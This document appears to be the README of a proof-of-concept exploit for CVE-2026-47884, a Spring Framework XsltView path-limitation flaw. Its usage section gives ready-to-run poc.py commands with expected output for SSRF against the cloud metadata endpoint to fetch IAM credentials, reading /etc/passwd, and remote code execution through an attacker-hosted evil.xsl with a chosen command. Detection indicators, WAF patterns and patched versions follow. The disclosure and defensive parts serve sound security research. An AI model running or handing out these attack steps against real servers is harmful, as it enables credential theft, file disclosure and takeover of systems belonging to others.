

<div align="center">

# CVE-2026-47884

### Spring Framework — XsltView SSRF and RCE via Improper Path Limitation


</div>

---

## Overview

Spring Framework's `XsltView` renders XSLT stylesheets by resolving the view name as a filesystem or classpath path. When a Spring MVC application uses a catch-all `/**` route mapping **without explicitly setting the view name**, an attacker can supply an arbitrary view name via the URL and have `XsltView` resolve it to any path — including remote URLs or absolute filesystem paths. This enables **Server-Side Request Forgery (SSRF)** and, when the XSLT stylesheet is attacker-controlled, **Remote Code Execution** via XSLT Java extension functions.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-47884 |
| **CVSS 3.1** | `9.8 Critical` (third-party) / `Medium` (Spring vendor) |
| **CWE** | CWE-22 (Improper Limitation of a Pathname) |
| **Component** | `spring-webmvc` — `XsltView` |
| **Affected** | Spring Framework 5.2.x – 5.3.49, 6.0.x – 6.0.30, 6.1.x – 6.1.28, 6.2.x – 6.2.19, 7.0.0 – 7.0.8 |
| **Fixed** | 5.3.50, 6.0.31, 6.1.29, 6.2.20, 7.0.9 |
| **Auth Required** | None — if the endpoint is publicly accessible |
| **Conditions** | App uses `XsltView` + catch-all mapping + implicit view name from request |
| **Disclosed** | 2026-11-13 |

---

## Vulnerability Details

`XsltView` calls `getStylesheetSource(viewName)`, which passes the view name directly to a resource resolver without restricting it to the configured prefix/suffix. When the view name is derived from the URL path, an external attacker controls the full view name string.

This allows:
- **SSRF**: Supply a view name like `http://169.254.169.254/latest/meta-data/` or `file:///etc/passwd`
- **RCE**: Host a crafted XSLT stylesheet at an attacker-controlled URL that uses Java extension functions

```java
// Vulnerable pattern
@GetMapping("/**")
public String render(@PathVariable String path) {
    return path;  // view name comes from request -> XsltView resolves attacker-controlled path
}
```

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. The lab app is a minimal Spring Boot application with the vulnerable configuration.

### Setup

```bash
pip install requests

# Start the vulnerable Spring app
docker compose up -d
# App listens on http://localhost:8080
```

### Check if target uses XsltView

```bash
python3 poc.py --target http://localhost:8080 --mode probe
```

Expected output:
```
[*] target: http://localhost:8080
[*] probing for XsltView endpoint...
[+] GET /xslt/test -> HTTP 500 (javax.xml.transform error -- XsltView present)
[!] XsltView detected -- testing path limitation...
```

### SSRF — read AWS metadata

```bash
python3 poc.py --target http://localhost:8080 \
    --mode ssrf \
    --url "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Expected output — vulnerable app:
```
[*] SSRF attempt: http://169.254.169.254/latest/meta-data/iam/security-credentials/
    GET /xslt/http%3A%2F%2F169.254.169.254%2F...  HTTP 200
    body: s3-read-role
[!] VULNERABLE -- SSRF confirmed: IAM role name returned
```

### SSRF — local file read

```bash
python3 poc.py --target http://localhost:8080 \
    --mode lfi \
    --file /etc/passwd
```

Expected output:
```
[*] LFI: file:///etc/passwd
    HTTP 200
    body: root:x:0:0:root:/root:/bin/bash...
[!] VULNERABLE -- local file read via XsltView path traversal
```

### RCE — via attacker-controlled XSLT

```bash
# Step 1: host evil.xsl on attacker server
python3 poc.py --mode host-xslt --port 8888 --cmd "id"

# Step 2: trigger RCE
python3 poc.py --target http://localhost:8080 \
    --mode rce \
    --attacker-url "http://10.10.10.1:8888/evil.xsl"
```

Expected output:
```
[*] hosting evil.xsl on 0.0.0.0:8888
[*] RCE via attacker XSLT: http://10.10.10.1:8888/evil.xsl
    command output: uid=1000(spring) gid=1000(spring) groups=1000(spring)
[!] VULNERABLE -- RCE confirmed
```

### Available flags

| Flag | Description |
|---|---|
| `--target URL` | Spring app base URL (required) |
| `--mode probe\|ssrf\|lfi\|rce\|host-xslt` | Attack mode |
| `--url URL` | SSRF target URL |
| `--file PATH` | LFI target path (default: `/etc/passwd`) |
| `--attacker-url URL` | Attacker XSLT URL for RCE mode |
| `--port N` | XSLT host port (default: `8888`) |
| `--cmd CMD` | Command to run via XSLT Java extension |
| `--endpoint PATH` | Spring endpoint path (default: `/xslt/`) |

### Expected output — patched Spring

```
[+] NOT vulnerable -- view name restricted to configured prefix
```

---

## Detection

| Indicator | Notes |
|---|---|
| `XsltView` resolving external URLs in app log | Spring DEBUG: `Loading XSLT stylesheet from URL [http://...]` |
| Unexpected outbound HTTP from app server | Network IDS: app server to 169.254.169.254 or attacker IP |
| View name contains URL-encoded `://` or `../` | WAF rule: request path with `%3A%2F%2F` or `..%2F` |

---

## Impact

An attacker can read internal service metadata (SSRF), read local files (LFI), or achieve full RCE on the application server.

**Conditions required** (all three must be true):
1. App uses `XsltView` or an XSLT-oriented view resolver
2. A `/**` or catch-all mapping leads to view rendering
3. The view name is derived from the request (not explicitly set)

---

## Remediation

Upgrade to **Spring Framework 5.3.50 / 6.0.31 / 6.1.29 / 6.2.20 / 7.0.9**.

| Action | Detail |
|---|---|
| Upgrade Spring | 6.1.29 or 6.2.20 (recommended) |
| Avoid implicit view names | Explicitly set the view name in the controller |
| Restrict view resolver | Set `XsltViewResolver.setPrefix` and `setSuffix` |
| WAF rule | Block `://` and `../` in view-name parameters |

---

## References

- Spring Security Advisory: https://spring.io/security/cve-2026-47884
- Vulert: https://vulert.com/vuln-db/CVE-2026-47884
- stack.watch: https://stack.watch/vuln/CVE-2026-47884/
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-47884

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
